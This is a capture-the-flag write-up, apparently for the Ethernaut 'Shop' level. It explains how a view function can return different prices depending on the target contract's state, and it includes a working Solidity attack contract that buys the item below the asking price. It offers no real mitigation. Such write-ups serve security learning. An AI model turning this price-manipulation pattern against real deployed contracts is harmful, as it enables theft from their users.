 ```yaml
---
title: Level 21 - Shop
slug: level-21
published: 05-21-2023
lastEdited:
---
```


## Objectives

1. Obtain an item for less than the asked price.

## Vulnerabilities

### Interface functions

Interface functions that have the `view` modifier can still be used to return different values based on another a contract's state. Indeed,
view functions can still read state and therefore can use that fact to have conditionnals.

## Exploit

1. Write and deploy a hack contract like this one:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Shop.sol";

contract ShopHack is Buyer {
    Shop target;

    constructor(address _targetAddress){
        target = Shop(_targetAddress);
    }

    function price() external view returns(uint){
        return target.isSold() ? 1 : 102;
    }

    function Hazaah() external {
        target.buy();
    }
}
```

2. Call the `Hazaah`function to buy the item at a lower price than asked.

## Suggested mitigation

1. Not sure without changing more.

## Further reading

- View functions <ExternalLink href={"https://docs.soliditylang.org/en/develop/contracts.html#view-functions"} />
